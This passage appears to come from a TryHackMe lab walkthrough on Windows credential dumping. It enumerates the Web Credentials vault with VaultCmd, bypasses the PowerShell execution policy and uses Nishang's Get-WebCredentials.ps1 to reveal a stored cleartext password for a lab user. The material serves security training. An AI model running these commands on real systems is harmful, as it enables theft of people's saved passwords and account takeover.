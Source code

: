 By default, Windows has two vaults, one for Web and the  other one for Windows machine credentials. The above output confirms  that we have the two default vaults.

Let's check if there are any stored credentials in the Web Credentials vault by running the vaultcmd command with `/listproperties`.

- **Checking if there Are any Stored Credentials in the "Web Credentials."**

```markup
C:\Users\Administrator>VaultCmd /listproperties:"Web Credentials"
Vault Properties: Web Credentials
Location: C:\Users\Administrator\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28
Number of credentials: 1
Current protection method: DPAPI
        
```

The output shows that we have one stored credential in the specified  vault. Now let's try to list more information about the stored  credential as follows,

- **Listing Credentials Details for "Web Credentials"**

```markup
C:\Users\Administrator>VaultCmd /listcreds:"Web Credentials"
Credentials in vault: Web Credentials

Credential schema: Windows Web Password Credential
Resource: internal-app.thm.red
Identity: THMUser Saved By: MSEdge
Hidden: No
Roaming: Yes
        
```

### Credential Dumping

The VaultCmd is not able to show the password, but we can rely on other PowerShell Scripts such as [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1), which is already included in the attached VM.

Ensure to execute PowerShell with bypass policy to import it as a module as follows,

- **Getting Clean-text Password from Web Credentials**

```markup
C:\Users\Administrator>powershell -ex bypass
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator> Import-Module C:\Tools\Get-WebCredentials.ps1
PS C:\Users\Administrator> Get-WebCredentials

UserName  Resource             Password     Properties
--------  --------             --------     ----------
THMUser internal-app.thm.red Password! {[hidden, False], [applicationid, 00000000-0000-0000-0000-000000000000], [application, MSEdge]}
        
```

